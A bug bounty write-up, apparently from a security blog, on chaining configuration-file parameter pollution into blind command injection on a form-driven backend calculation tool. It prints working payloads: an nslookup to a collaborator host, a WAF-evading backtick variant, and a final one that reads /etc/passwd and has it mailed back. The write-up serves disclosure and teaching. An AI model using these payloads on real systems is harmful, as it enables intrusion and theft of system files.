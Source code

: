```yaml
---                                                                                                                                                                                                                                   
layout: default
title:  "Backend Parameter Injection --> RCE"
date:   2023-03-14 11:02:21 0100
author: Sysdum
---  
```

## Background

After performing my recon on a private program, I came across a pretty standard web form that accepted numerical values, performed some unknown calculations, and then emailed the results back to the user.

This behavior piqued my interest as this was on a more obscure subdomain, it accepted a lot of variables, and probably passed input to something that wasn't designed for the web. 


Using Burp Suite's Repeater, I submitted the form a few times. It took me a minute to successfully submit the form as there were many client-side checks to ensure the numbers were within the acceptable range for the back-end application. 

After brute-forcing the form because I'm bad a math, I finally got an email with output that looked like it might have originated from a command line tool. I get excited any time I see back-end command line functionality reflected anywhere in a web app. Chances are decent that there may be a command injection vulnerability if we can figure out how to smuggle a command to the back-end service.

![Email-Output](/assets/param-rce-email-output.jpg)

Any time I find an interesting application, I first check if it is open-source so that I can see how it works. I googled the variable names within the response and found a repository (let's call it CalcTool) on GitHub. After looking over the readme, I learned CalcTool reads a configuration file and generates output very similar to the email I received.

This raised several questions. Is this application passing data directly to CalcTool's configuration file? If so, can I exploit its behavior somehow?

## CalcTool Code Review

I looked over the sample configuration file on GitHub and found that the form values lined up exactly with the variables on the web form. This confirmed my suspicion that the web app was passing input to CalcTool. 

My next goal was to determine if there was any dangerous functionality within CalcTool that I could hit from the web application. I decided to search for function calls that could execute a command such as exec, execv, and system. These calls are usually vulnerable to command injection if the attacker can pass improperly sanitized input to these functions.

After some time, I found exactly one system() call. It was in an email function that dynamically constructed the arguments from the CalcTool configuration file:

```plaintext
margs = "-s CalcTool Output: '" + jobtitle + "' " + email + " < LOGFILE"
System ("mail" + text)
```

The end result of these string operations is the following command:

```plaintext
mail -s 'CalcTool Output: job173' email@example.com < /path/to/LOGFILE
```

Unfortunately, I only had access to the email variable and the web application used a decent regular expression to filter out any useful special characters e.g. ( ` $ )

At this stage I knew the following:

*   The web application passes the web form values in a one-to-one fashion to CalcTool's config file.
*   There is only one form value that I control that is passed to a system() call within CalcTool, which is my best chance at exploitation.

The goal was to find a way to pass input that I controlled directly to that system call

## Polluting the Configuration

Bypassing filters can be tricky. In web application testing, one common filter bypass technique is parameter pollution.

PortSwigger defines parameter pollution as:

```plaintext
HTTP Parameter Pollution tests the applications response to receiving multiple HTTP parameters with the same name; for example, if the parameter username is included in the GET or POST parameters twice.

Supplying multiple HTTP parameters with the same name may cause an application to interpret values in unanticipated ways. By exploiting these effects, an attacker may be able to bypass input validation, trigger application errors or modify internal variables values. 
```

Now, I knew the web application accepts values as multi-part form data, which is not typically vulnerable to HTTP parameter pollution. However, I noticed that CalcTool's configuration variables and the values from the form lined up almost perfectly. 

If the web application was writing these values to a CalcTool configuration file, then what would happen if a variable were defined more than once?

Here is an example of what a configuration file looked like from the README:

```plaintext
Title "job title"
Email "email@example.com"
LOGFILE "log.txt"
Parameter_a 10
Parameter_b 1.4
```

It is a simple text file with a parameter followed by a "value" on each line.

I decided to apply the concept of HTTP parameter pollution to the configuration file. Thus I tried to pollute the job title variable using one of the numeric form values. To do this I added a new line character after the numeric value and inserted a TITLE variable just below it. 

If I could set the title to the word "polluted", then the subject of my email should read "CalcTool Output: Polluted" instead of the normal "JobOutput\_1948333".

After pollution, the form value looked something like this:

```plaintext
-------------------------384837281
Content-Disposition: form-data; name="frequency"

10
Title "polluted"
-------------------------384837281
```

10 is the original value of the frequency form value, and I added a new line with the polluted title variable.

After adding the new line and Title variable in Burp's repeater, I sent a request that would result in the config file below:

```plaintext
Title "jobid12"
...
Range 300
Frequency 10
Title "polluted"
```

For this to work, the application would need to keep **only** the **last** declaration of the title variable instead of keeping the first declaration. I then used BurpSuite's intercept feature to catch the form and add the polluted variable on a new line. I received the following email:

![Polluted Job](/assets/param-rce-job-polluted.jpg)

This output means that the pollution worked!

## Command Execution
The next step was to prove a command injection vulnerability. Due to the mail command not retuning its output directly to me, this is a blind command injection. Therefore, I needed an out-of-band (OOB) method of exfiltrating data. I tried the following payload using Burp Collaborator:

```plaintext
-------------------------384837281
Content-Disposition: form-data; name="frequency"

10
Title "$(nslookup mycollaborator.com)"
-------------------------384837281
```

After sending the request and editing it with Burp, this time I was met with a 403 forbidden status from the web server. After trying a couple of other common payloads, I discovered that the application was behind a Web Application Firewall (WAF). 

It was configured to block most Linux commands and would not allow $() or {} at all.

However, backticks were allowed, which can be used for command substitution on Unix systems. So I tried the following variant:

```plaintext
...
-------------------------384837281
Content-Disposition: form-data; name="frequency"

10
Title `a=nslo;b=okup;$a$b mycollaborator.com`
...
```

This payload does the following:

*   Declares a variable and sets it to be the value “nslo”
*   Declares a variable b and sets it to be the value “okup”
*   Runs the command $a$b which combines a and b to form the nslookup command. Then I simply passed it mycollaborator.com (a placeholder for the actual collaborator URL) in order to get my lookup.

After checking my collaborator client, I saw a new lookup from my target's IP address. This means my blind command injection worked. However, I needed to exfiltrate data in order to prove remote code execution. To accomplish this, I needed to pollute one more variable: LOGFILE. This is where CalcTool reads input from in order to email the results to the user. 

```plaintext
...
-------------------------384837281
Content-Disposition: form-data; name="frequency"

10
Title `a=ca;b=t;$a$b /e*c/pa*s*d > /tmp/synack77`
LOGFILE /tmp/synack77 
...
```

### Here is a breakdown of the final exploit chain:

*   CalcTool's configuration file allows for the definition of a log file.
*   The email function I showed earlier reads this log into the body of the email in order to send the results back to the user.
*   I needed to pollute the title parameter with a payload to write command results to a file.
*   Then I required a way to send the results back to me, so I polluted the logfile parameter to the command result file.
*   The results of the calculations would be overwritten by my command, and then the mail command would email me the results of my command

![Final Payload](/assets/param-rce-final-payload.png)

Here is how the payload looks when it is ran by CalcTool:
```plaintext
mail -s "CalcTool Output: `a=ca;b=t;$a$b /e*c/pa*s*d > /tmp/synack77`" email@gmail.com < /tmp/synack77
```

The command within the back ticks is executed before the mail command is run. Therefore, the output of our command will be stored in /tmp/synack77 before the mail command runs and we get an email with the results of our command. In this case we are reading /etc/passwd. 

Finally, I received an email results of the cat /etc/passwd command:
![Payload Contents](/assets/param-rce-email-output-passwd.jpg)


Thanks for reading!
